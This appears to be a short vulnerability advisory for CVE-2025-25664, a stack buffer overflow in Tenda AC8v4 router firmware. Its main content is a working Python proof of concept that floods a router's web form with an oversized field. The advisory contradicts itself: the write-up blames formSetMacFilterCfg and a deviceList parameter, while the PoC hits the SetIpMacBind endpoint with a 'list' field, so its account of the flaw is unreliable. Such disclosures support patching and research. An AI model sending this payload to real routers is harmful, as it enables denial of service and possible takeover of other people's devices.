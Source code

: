 # CVE-2025-25664

## Overview

- Firmware download website: https://www.tenda.com.cn/material/show/103518

## Affected version

AC8v4 V16.03.34.06

## Vulnerability details

In function `sub_47D878` line 8, `src` reads from the caller function `formSetMacFilterCfg` in a user-provided parameter `deviceList`, and the variable is passed to the function `strcpy` in line 28、29 without any length check, which may lead to overflow of the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a **denial of service** attack or **remote code execution**.

![img](https://s2.loli.net/2025/02/15/cvFUCihWMIrKRbQ.png)

![img](https://s2.loli.net/2025/02/15/2aLIVWkreBCAZsg.png)

## POC

```python
import requests

headers = {
    'Host': '192.168.2.1',
    'Accept': '*/*',
    'X-Requested-With': 'XMLHttpRequest',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8',
    'Connection': 'close',
}
ip = "192.168.2.1"
ipaddr = "1" * 0x1000
data = 'bindnum=1&list=deviceName1\r10:11:11:11:11:11\r' + ipaddr

response = requests.post(
    f'http://{ip}/goform/SetIpMacBind', 
    headers=headers, 
    data=data, 
    verify=False)
```



![img](https://s2.loli.net/2025/02/15/ogTX1vmpuxnIJ65.png)
